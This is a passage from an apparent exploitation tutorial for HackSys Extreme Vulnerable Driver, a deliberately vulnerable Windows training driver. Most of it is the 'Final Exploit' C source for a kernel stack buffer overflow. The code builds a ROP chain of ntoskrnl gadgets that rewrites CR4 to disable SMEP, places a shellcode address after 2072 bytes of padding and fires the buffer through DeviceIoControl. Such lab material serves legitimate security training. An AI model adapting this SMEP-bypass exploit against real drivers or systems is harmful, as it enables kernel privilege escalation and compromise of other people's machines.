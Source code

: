 ```C title="Final Exploit"
        printf("[-] FATAL: Unable to allocate shellcode!\n");
        exit(1);
    }
    printf("[+] Shellcode allocated at: 0x%p\n", shellcode);

    /* Move allocated space in user mode */
    BOOL MoveMem = RtlMoveMemory(shellcode, payload, sizeof(payload));
    if(!MoveMem)
    {
        printf("[-] FATAL: Unable to move shellcode into allocated memory!\n");
    }

    unsigned long long ShellcodeBase = (unsigned long long)shellcode;
    return ShellcodeBase;
}

void exploit(void)
{
    HANDLE  DriverHandle;
    DWORD   OldProtect;
    char    buffer[2100] = {0};

    unsigned long long BaseAddress = GetKernelBase();
    unsigned long long shellcode = CreateShellcode();

    unsigned long long ROP1 = BaseAddress + 0x6a0a51;   // 0x1406a0a51: pop rcx ; ret      : ntoskrnl.exe
    unsigned long long ROP2 = 0x70678;                  // Updated CR4
    unsigned long long ROP3 = BaseAddress + 0x9a41e3;   // 0x1409a41e3: mov cr4, rcx ; ret : ntoskrnl.exe

    /* Fill exploit buffer with As. */
    memset(buffer, 0x41, sizeof(buffer));

    printf("[+] Beginning ROP chain to disable SMEP!\n");
    memcpy(&buffer[2072], &ROP1, 8);
    memcpy(&buffer[2072+8], &ROP2, 8);
    memcpy(&buffer[2072+16], &ROP3, 8);
    printf("[*] SMEP should now be disabled!\n");

    memcpy(&buffer[2072+24], &shellcode, 8);
    printf("[+] Executing shellcode!\n");

    printf("[*] Opening handle to %s\n", DRIVER);
    DriverHandle = CreateFileA(DRIVER, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (DriverHandle == INVALID_HANDLE_VALUE) 
    {
        printf("[!] FATAL: Could not open HEVD handle!\n");
        return;
    }

    if (!DeviceIoControl(DriverHandle, IOCTL_CODE, buffer, sizeof(buffer), NULL, 0, NULL, NULL))
    {
        printf("[!] FATAL: Error sending IOCTL to driver!\n");
        return;
    }

}

int main()
{
    printf("[+] HEVD: Stack Buffer Overflow!\n");
```

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.
